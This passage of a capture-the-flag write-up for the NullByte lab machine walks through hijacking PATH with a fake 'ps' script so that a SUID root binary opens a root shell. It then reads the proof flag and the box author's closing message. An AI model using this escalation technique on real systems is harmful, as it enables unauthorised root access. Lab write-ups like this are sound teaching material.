ramses@NullByte:/var/www/backup$ ./procwatch
  PID TTY          TIME CMD
 1785 pts/0    00:00:00 procwatch
 1786 pts/0    00:00:00 sh
 1787 pts/0    00:00:00 ps

Seems like a ps, probably executing the command itself. Moreover it is own by root
with the [suid](https://en.wikipedia.org/wiki/Setuid) set (the s in the `ls -l`),
meaning we execute this program with root privileges.

One classic vulnerability when a program executes another one is to use the PATH
environment variable to execute a command of our choice instead of the command
wanted by the program.

First of all we create a file with the command we want to execute and name it `ps`:

    :::text
    ramses@NullByte:/var/www/backup$ echo /bin/sh > ~/ps

We give the execution right to this file:

    :::text
    ramses@NullByte:/var/www/backup$ chmod +x ~/ps

We add the directory where we created this file to our PATH:

    :::text
    ramses@NullByte:/var/www/backup$ export PATH=~/:$PATH

We execute the original program:

    :::text
    ramses@NullByte:/var/www/backup$ ./procwatch

Magic happened, we got a root shell:

    :::text
    # whoami
    root

Now we just need to search the flag:

    # ls /root
    proof.txt
    # cat /root/proof.txt
    adf11c7a9e6523e630aaf3b9b7acb51d

    It seems that you have pwned the box, congrats.
    Now you done that I wanna talk with you. Write a walk & mail at
    xly0n@sigaint.org attach the walk and proof.txt
    If sigaint.org is down you may mail at nbsly0n@gmail.com


    USE THIS PGP PUBLIC KEY

